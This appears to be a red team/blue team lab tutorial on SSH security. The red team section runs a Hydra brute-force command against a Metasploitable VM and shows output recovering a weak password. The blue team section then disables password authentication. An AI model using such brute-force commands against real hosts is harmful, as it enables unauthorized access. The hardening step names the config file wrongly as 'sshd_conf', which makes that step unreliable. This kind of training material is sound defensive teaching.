# Endpoint
For this scenario, a network administrator is negligent with ssh security measures - he likes easy to remember password and definitely never uses keys.

# Red Team
For this attack, we will use Hydra and try to bruteforce ssh into the target machine. In reality, this attack would take a long time, so we reduced the dictionary for demonstrations purposes (we don't want to stand here for 3 days, right?).

With a list of possible users (users.list) and possible passwords (passwords.list), let's run this command `sudo hydra -L users.txt -P passwords.txt 192.168.1.104 ssh -t 4`:

```
... hidden output

[DATA] attacking ssh://192.168.1.104:22/
[STATUS] 52.00 tries/min, 52 tries in 00:01h, 1355 to do in 00:27h, 4 active
[STATUS] 33.67 tries/min, 101 tries in 00:03h, 1306 to do in 00:39h, 4 active
[22][ssh] host: 192.168.1.104   login: marco   password: Admin!23
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-11 19:43:44

```

# Blue Team
The best way to harden your server when it comes to passwords is to ensure they are complex enough. This will make any bruteforce virtually impossible.

For this case, however, our approach will be to only allow authentication with keys, instead of passwords.

To do so, let's edit the /// file `/etc/ssh/sshd_conf`. Change or add these lines:

```
PasswordAuthentication no
```

Now restart sshd on our metasploitable VM with `sudo /etc/init.d/ssh restart`.

It's worth mentioning that there are other ways to harden our server, such as disabling ssh to root or changing the default port. However, for this example, just blocking password will work. Even if we know any users' password, we will not be able to connect: 

```
┌──(kali㉿kali)-[~]
└─$ ssh marco@192.168.1.104                                           
marco@192.168.1.104: Permission denied (publickey).
```